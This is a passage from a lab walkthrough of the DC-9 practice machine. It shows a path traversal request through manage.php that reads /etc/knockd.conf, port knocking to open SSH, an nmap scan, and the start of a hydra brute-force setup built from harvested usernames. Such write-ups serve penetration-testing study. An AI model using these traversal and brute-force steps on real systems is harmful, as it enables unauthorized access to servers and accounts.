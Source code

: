 We are successful, in the scan with nmap we discovered that the ssh port was filtered and what comes to mind is the Port Knocking technique so I am going to see the Knock configuration files

```bash
http://192.168.34.5/manage.php?file=../../../../../../../etc/knockd.conf
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2013.png)

We obtain the sequence to introduce with knock

```bash
knock -v 192.168.34.5 7469 8475 9842
hitting tcp 192.168.34.5:7469
hitting tcp 192.168.34.5:8475
hitting tcp 192.168.34.5:9842
```

I check that the port has been opened

```bash
nmap -sV 192.168.34.5
Starting Nmap 7.93 (https://nmap.org) at 2023-09-17 19:20 CEST
Nmap scan report for example.com (192.168.34.5)
Host is up (0.00012s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open http Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:C1:23:27 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

With the users obtained previously I perform a brute force attack with hydra

I create a file with users

```bash
cat creds | cut -d ':' -f1 > users.txt
```

I create passwords file
